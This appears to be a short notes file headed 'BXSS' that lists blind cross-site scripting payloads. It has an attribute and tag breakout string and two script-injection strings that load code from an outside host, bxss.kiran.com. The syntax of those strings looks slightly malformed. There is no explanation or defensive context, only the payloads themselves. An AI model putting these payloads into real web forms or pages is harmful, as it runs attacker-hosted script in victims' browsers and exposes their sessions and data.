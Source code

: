 # BXSS


`';"/>`

`';"/><textarea></script><script>/src=//bxss.kiran.com/`

`<script>/src=//bxss.kiran.com/`




